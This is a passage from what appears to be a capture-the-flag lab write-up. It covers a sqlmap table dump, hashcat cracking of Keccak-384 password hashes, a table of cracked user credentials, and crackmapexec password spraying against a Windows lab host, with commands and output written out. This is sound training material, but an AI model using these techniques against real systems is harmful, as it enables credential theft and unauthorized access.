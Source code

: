     [18:52:50] [INFO] table 'Hub_DB.dbo.Logins' dumped to CSV file '/root/.sqlmap/output/10.10.10.179/dump/Hub_DB/Logins.csv'
    [18:52:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.179' 
    

Now I’ve got usernames and password hashes.

### Crack Hashes

The `sqlmap` automated cracker didn’t break any of the hashes, but it uses a
limited wordlist. Given the length of the hash, it looks like SHA-384. When I
ran `hashcat` with `-m 10800` for SHA-384 with `rockyou.txt`, nothing broke.
There’s two other formats on the [Hashcat example
hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page - SHA3-384
(`-m 17500`) and Keccak-384 (`-m 17900`). When I ran with the latter, I got
results:

    
    
    root@kali# hashcat -m 17900 hashes /usr/share/wordlists/rockyou.txt --force
    hashcat (v5.1.0) starting...
    ...[snip]...
    9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
    68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
    fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
    Approaching final keyspace - workload adjusted.  
    ...[snip]...
    

While there’s a bunch of users in the database, there were only four unique
passwords, and three broke with `rockyou.txt`:

Password | Users  
---|---  
password1 | sbauer, shayna, james, cyork, jorden, aldom  
finance1 | ckane, kpage, zac, ilee, zpowers  
banking1 | okent, rmartin, alyx, nbourne  
? | minatotw, egre55  
  
### Test Creds

I used `crackmapexec` to see if I could use any of these creds over SMB, but
they all failed:

    
    
    root@kali# crackmapexec smb 10.10.10.179 -u users -p passwords
    SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:finance1 STATUS_LOGON_FAILURE 